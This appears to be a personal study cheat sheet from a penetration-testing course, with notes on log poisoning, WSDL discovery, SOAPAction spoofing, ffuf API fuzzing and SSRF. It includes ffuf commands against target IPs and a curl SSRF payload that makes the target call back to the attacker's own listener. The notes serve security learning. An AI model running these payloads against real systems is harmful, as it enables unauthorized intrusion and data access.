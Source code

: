 
# Log Poisoning

- [ ] if could execute a RCE directly you can use the log posining, but for that you need to identify the location of the log file 




# WEB SERVICE & API ATTACKS

Check for exposed WSDL file 
```shell-session
'http://<TARGET IP>:3002/wsdl?FUZZ'
```

# SOAPAction Spoofing
if a SOAP  file is found you can use it for RCE attack, but for that you need the soap to have some type of _ExecuteCommand_. configuration. That can be check on the file 



# API ATTACK


now we need to check of every type of attack on the APIs, but there a few tips that make it easier to identify some vulnerabilities 

> [!NOTE]
> When fuzzing parameter they will always respond with 200, so for that you might need to filter by size,word or lines so you can identify the real parameter 

```shell-session
 ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
```


when working with API is a good ideia to do recursive fuzzing to identify another APIs

```shell-session
 ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```


APIs are kin to have SSRF so try a few ideias for a SSRF

```shell-session
curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
```

> [!NOTE]
> In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.
> 
>   Server-Side Request Forgery (SSRF)
